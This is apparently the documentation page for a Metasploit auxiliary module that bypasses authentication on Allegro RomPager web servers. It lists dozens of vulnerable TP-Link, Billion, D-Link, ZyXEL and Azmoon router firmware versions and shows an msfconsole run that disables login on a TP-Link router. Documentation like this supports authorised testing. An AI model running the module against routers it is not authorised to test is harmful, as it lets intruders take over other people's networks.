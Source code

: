 ## Vulnerable devices

The following devices and firmware versions are known to be vulnerable:

 * Azmoon   AZ-D140W - 2.11.89.0(RE2.C29)3.11.11.52_PMOFF.1
 * Billion  BiPAC 5102S - Av2.7.0.23 (UE0.B1C)
 * Billion  BiPAC 5102S - Bv2.7.0.23 (UE0.B1C)
 * Billion  BiPAC 5200 - 2.11.84.0(UE2.C2)3.11.11.6
 * Billion  BiPAC 5200 - 2_11_62_2_ UE0.C2D_3_10_16_0
 * Billion  BiPAC 5200A - 2_10_5 _0(RE0.C2)3_6_0_0
 * Billion  BiPAC 5200A - 2_11_38_0 (RE0.C29)3_10_5_0
 * Billion  BiPAC 5200GR4 - 2.11.91.0(RE2.C29)3.11.11.52
 * Billion  BiPAC 5200SRD - 2.10.5.0 (UE0.C2C) 3.6.0.0
 * Billion  BiPAC 5200SRD - 2.12.17.0_UE2.C3_3.12.17.0
 * Billion  BiPAC 5200SRD - 2_11_62_2(UE0.C3D)3_11_11_22
 * D-Link   DSL-2520U - Z1 1.08 DSL-2520U_RT63261_Middle_East_ADSL
 * D-Link   DSL-2600U - Z1_DSL-2600U
 * D-Link   DSL-2600U - Z2_V1.08_ras
 * TP-Link  TD-8616 - V2_080513
 * TP-Link  TD-8816 - V4_100528_Russia
 * TP-Link  TD-8816 - V4_100524
 * TP-Link  TD-8816 - V5_100528_Russia
 * TP-Link  TD-8816 - V5_100524
 * TP-Link  TD-8816 - V5_100903
 * TP-Link  TD-8816 - V6_100907
 * TP-Link  TD-8816 - V7_111103
 * TP-Link  TD-8816 - V7_130204
 * TP-Link  TD-8817 - V5_100524
 * TP-Link  TD-8817 - V5_100702_TR
 * TP-Link  TD-8817 - V5_100903
 * TP-Link  TD-8817 - V6_100907
 * TP-Link  TD-8817 - V6_101221
 * TP-Link  TD-8817 - V7_110826
 * TP-Link  TD-8817 - V7_130217
 * TP-Link  TD-8817 - V7_120509
 * TP-Link  TD-8817 - V8_140311
 * TP-Link  TD-8820 - V3_091223
 * TP-Link  TD-8840T - V1_080520
 * TP-Link  TD-8840T - V2_100525
 * TP-Link  TD-8840T - V2_100702_TR
 * TP-Link  TD-8840T - V2_090609
 * TP-Link  TD-8840T - V3_101208
 * TP-Link  TD-8840T - V3_110221
 * TP-Link  TD-8840T - V3_120531
 * TP-Link  TD-W8101G - V1_090107
 * TP-Link  TD-W8101G - V1_090107
 * TP-Link  TD-W8101G - V2_100819
 * TP-Link  TD-W8101G - V2_101015_TR
 * TP-Link  TD-W8101G - V2_101101
 * TP-Link  TD-W8101G - V3_110119
 * TP-Link  TD-W8101G - V3_120213
 * TP-Link  TD-W8101G - V3_120604
 * TP-Link  TD-W8151N - V3_120530
 * TP-Link  TD-W8901G - V1_080522
 * TP-Link  TD-W8901G - V1,2_080522
 * TP-Link  TD-W8901G - V2_090113_Turkish
 * TP-Link  TD-W8901G - V3_140512
 * TP-Link  TD-W8901G - V3_100603
 * TP-Link  TD-W8901G - V3_100702_TR
 * TP-Link  TD-W8901G - V3_100901
 * TP-Link  TD-W8901G - V6_110119
 * TP-Link  TD-W8901G - V6_110915
 * TP-Link  TD-W8901G - V6_120418
 * TP-Link  TD-W8901G - V6_120213
 * TP-Link  TD-W8901GB - V3_100727
 * TP-Link  TD-W8901GB - V3_100820
 * TP-Link  TD-W8901N - V1_111211
 * TP-Link  TD-W8951ND - V1_101124,100723,100728
 * TP-Link  TD-W8951ND - V1_110907
 * TP-Link  TD-W8951ND - V1_111125
 * TP-Link  TD-W8951ND - V3.0_110729_FI
 * TP-Link  TD-W8951ND - V3_110721
 * TP-Link  TD-W8951ND - V3_20110729_FI
 * TP-Link  TD-W8951ND - V4_120511
 * TP-Link  TD-W8951ND - V4_120607
 * TP-Link  TD-W8951ND - V4_120912_FL
 * TP-Link  TD-W8961NB - V1_110107
 * TP-Link  TD-W8961NB - V1_110519
 * TP-Link  TD-W8961NB - V2_120319
 * TP-Link  TD-W8961NB - V2_120823
 * TP-Link  TD-W8961ND - V1_100722,101122
 * TP-Link  TD-W8961ND - V1_101022_TR
 * TP-Link  TD-W8961ND - V1_111125
 * TP-Link  TD-W8961ND - V2_120427
 * TP-Link  TD-W8961ND - V2_120710_UK
 * TP-Link  TD-W8961ND - V2_120723_FI
 * TP-Link  TD-W8961ND - V3_120524,120808
 * TP-Link  TD-W8961ND - V3_120830
 * ZyXEL    P-660R-T3 - 3.40(BOQ.0)C0
 * ZyXEL    P-660RU-T3 - 3.40(BJR.0)C0

## Module usage

  This is an example run against TP-Link TD-8817 router:

```
msf > use auxiliary/admin/http/allegro_rompager_auth_bypass
msf auxiliary(allegro_rompager_auth_bypass) > show options

Module options (auxiliary/admin/http/allegro_rompager_auth_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.1.1      yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       URI to test
   VHOST                       no        HTTP server virtual host


msf auxiliary(allegro_rompager_auth_bypass) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(allegro_rompager_auth_bypass) > run

[+] Detected device:TP-Link TD-8817
[-] Bad response
[-] Bad response
[+] Good response, please check host, authentication should be disabled
[*] Auxiliary module execution completed
```
